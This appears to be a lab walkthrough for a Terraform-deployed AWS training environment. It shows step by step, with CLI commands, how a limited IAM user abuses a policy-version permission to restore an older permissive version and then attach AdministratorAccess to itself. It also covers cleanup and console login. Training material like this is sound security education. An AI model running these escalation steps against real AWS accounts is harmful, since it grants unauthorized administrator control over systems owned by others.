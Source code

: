 # Solutions / Walk through

Lets start off by viewing what permissions are attached to our user.

Run the following commands while authenticated as demo.

```sh
aws iam list-attached-user-policies --user-name demo

aws iam list-user-policies --user-name demo
```

The first command lists existing policies managed by aws and your account. While the seconds lists inline policies that only exist for the object they are attached too.

Lets look into the following policies changePolicyVersion and developerPermissions.

Replace **ACCOUNT_ID** in all following commands with the 12 digit account id you got from your terraform output.

```sh
aws iam get-user-policy --user-name demo --policy-name changePolicyVersion

aws iam get-policy --policy-arn arn:aws:iam::ACCOUNT_ID:policy/developerPermissions
```

It looks like we have access to change policy versions and the developerPermissions seems to have several versions.

Lets list the versions and look at the different version permissionns.

```sh
aws iam list-policy-versions --policy-arn arn:aws:iam::ACCOUNT_ID:policy/developerPermissions

aws iam get-policy-version --policy-arn arn:aws:iam::ACCOUNT_ID:policy/developerPermissions --version-id v2

aws iam get-policy-version --policy-arn arn:aws:iam::ACCOUNT_ID:policy/developerPermissions --version-id v1
```

It looks like the **v1** policy grants us full iam permissions, lets change the policy to use it as the default policy version.

```sh
aws iam set-default-policy-version --policy-arn arn:aws:iam::ACCOUNT_ID:policy/developerPermissions --version-id v1
```

Our user now has full iam permissions, lets give ourself administrative permissions.

```sh
aws iam attach-user-policy --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --user-name demo

aws iam list-attached-user-policies --user-name demo
```

The demo user now has administrator permissions in this aws account. ◻

## Cleanup

Lets remove the policies we attached and then let terraform do the rest.

```sh
aws iam detach-user-policy --user-name demo --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

## AWS Console

All of the following can be done in the web console as well.

Run the following command.

```sh
aws iam create-login-profile --user-name demo --password 'My!User1Login8P@ssword'
```

Navigate to [console.aws.amazon.com](console.aws.amazon.com) choose IAM login, account id is in the terraform output [*account_id*], username is **demo** and password is **My!User1Login8P@ssword**
